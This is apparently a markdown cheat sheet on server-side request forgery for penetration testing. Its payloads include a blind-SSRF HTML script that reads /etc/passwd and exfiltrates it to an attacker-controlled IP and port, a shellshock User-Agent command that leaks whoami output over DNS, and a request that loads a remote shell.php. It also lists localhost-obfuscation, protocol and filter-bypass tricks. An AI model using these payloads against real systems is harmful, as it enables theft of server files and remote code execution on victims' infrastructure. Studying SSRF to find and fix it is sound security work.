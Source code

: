 # Content
- [What can SSRF vulnerabilities can lead to](#what-can-ssrf-vulnerabilities-can-lead-to)
- [Where to find SSRF](#where-to-find-ssrf-)
- [Testing if app vulnerable to SSRF](#testing-if-app-vulnerable-to-ssrf)
- [Blind SSRF](#blind-ssrf)
    - [blind SSRF via pdf generator](#blind-ssrf-via-pdf-generator)
    - [blind SSRF via User-Agent header](#blind-ssrf-via-user-agent-header-shellshock)
- [Bypass](#bypass)
    - [SSRF with blacklist-based input filters](#ssrf-with-blacklist-based-input-filters)
    - [SSRF with whitelist-based input filters](#ssrf-with-whitelist-based-input-filters)



## What can SSRF vulnerabilities can lead to:
- Interacting with known internal systems
- Discovering internal services via port scans
- Disclosing local/sensitive data
- Including files in the target application
- Leaking NetNTLM hashes using UNC Paths (Windows)
- Achieving remote code execution


## Where to find SSRF :
- Parts of HTTP requests, including (URLs,paramters,headrs,...)
     - Referer header
     - User-Agent header
```
Note: Always keep in mind that web application fuzzing should be part of any penetration testing or bug bounty hunting activity.
That being said, fuzzing should not be limited to user input fields only.
Extend fuzzing to parts of the HTTP request as well, such as the User-Agent.
```
- File imports such as HTML, PDFs, images, etc.
- Remote server connections to fetch data
- API specification imports
- Dashboards including ping and similar functionalities to check server statuses


## Testing if app vulnerable to SSRF
The most common test is local and remote file inclusion

- try diffrient protocols (http,file,ftp,..)
- fuzz ports
- do not forget to url encode if going through more than one app (ex:trible url encode)
- DNS loopkup for server you own
- Load External files (try RCE)
```
GET https://example.com/page?page=https://malicioussite.com/shell.php
```
- Access a Restricted Page
```
GET https://example.com/page?page=http://localhost/admin
```
- Attack other back-end systems
```
http://192.168.0.68/admin
```




## Blind SSRF
- We can detect blind SSRF vulnerabilities via out-of-band techniques
- Blind SSRF vulnerabilities could exist in PDF Document generators and HTTP Headers, among other locations.

### blind SSRF via pdf generator 
```
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>


```
### blind SSRF via User-Agent header (shellshock)
```
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
```

## Bypass

### SSRF with blacklist-based input filters

- **localhost obfuscation**
```bash
Localhost Address Block: 127.0.0.0 - 127.255.255.255
Shortened IP Adress: 127.1
Prolonged IP Address: 127.000000000000000.1
All Zeroes: 0.0.0.0
Shortened All Zeroes: 0
Decimal Representation: 2130706433
Octal Representation: 0177.0000.0000.0001
Hex Representation: 0x7f000001
IPv6 loopback address: 0:0:0:0:0:0:0:1 (also ::1)
IPv4-mapped IPv6 loopback address: ::ffff:127.0.0.1


```
- **DNS resolution**
```
1) Registering your own domain name that resolves to 127.0.0.1 OR any internal ip.
2) Nip.io allows simple wildcard DNS for any IP address (127.0.0.1.nip.io = 127.0.0.1 )
    - 127.0.0.1.nip.io  
    - 0x7f000001.nip.io (hexadecimal IP notation)
    - Something.google.com.127.0.0.1.nip.io
3) localtest.me == 127.0.0.1
4) lvh.me == 127.0.0.1
5) Registering your own domain name that resolves to 127.0.0.1 OR any internal ip.
```


- **Obfuscating blocked strings using URL encoding or case variation.**
- **using different different protocols.**
```
file:// (file read)
netdoc:// (file read)
dict://
gopher://
jar://
ldap://
ftp://
data:text/plain;base64,L2V0Yy9wYXNzd2Q=  (if the backend use the input to construct another url we can use data:// to include /etc/passwd directly)

You might be able to get file read.

Or send multi-line requests to gain additional impact

(Ex: gopher + redis = likely RCE)
```
- **HTTP redirects**
```php
<?php header('Location: http://127.0.0.1/'); ?>
```
- then host it
```bash
php -S 0.0.0.0:80
```

### SSRF with whitelist-based input filters

- You can embed credentials in a URL before the hostname, using the @ character. For example:
```bash
https://expected-host:fakepassword@evil-host
```
- You can use the # character to indicate a URL fragment. For example:
```bash
https://evil-host#expected-host
```
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```bash
https://expected-host.evil-host
```
- You can URL-encode characters to confuse the URL-parsing code This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.
```text
Note
that you can also try double-encoding characters
some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
```
- You can use combinations of these techniques together.

